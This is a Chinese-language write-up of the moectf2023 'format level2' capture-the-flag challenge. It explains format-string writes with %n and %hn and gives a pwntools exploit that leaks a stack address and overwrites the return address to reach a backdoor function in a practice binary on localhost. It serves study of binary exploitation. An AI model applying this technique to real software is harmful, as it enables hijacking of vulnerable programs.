 ```yaml
---
title: moectf2023 - format level2
date: 2023/9/26 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用格式字符串漏洞，通过写入返回地址跳转到后门函数获取flag。
---
```


## 文件分析

下载`format_level2`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为32位程序

## 解题思路

这次打龙不能拿到flag了，但是后门函数还在，可以考虑通过写入返回地址，
跳转到后门函数处输出flag

前置知识：  
%n -> `int_32 *`; %hn -> `int_16 *`; %hhn -> `int_8 *`  
%n只能修改输入的字符串中存在的值  
可以通过%??d来控制已打印字符的数量

查看源代码，发现后门函数地址和返回地址差2个字节，可以采用%hn  
首先talk，找到返回地址，然后再talk，将后门函数写到返回地址里实现攻击

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 42673)

# payload 1
sh.sendline(b'3') # talk with dragon
sh.sendline(b'%14$p') # leak rbp value to get ret after shifting

ret = int(sh.recvuntil(b'\nBut', True)[-10:], 16) - 0x68 + 0x4c # ignore '\nBut' to get pure addr, and shift addr to ret

# payload 2
sh.sendline(b'3') # talk with dragon
sh.sendline(p32(ret) + b'%37651d%7$hn') # ret占4，0x9317 == 37651 + 4

sh.interactive()
```

Done.
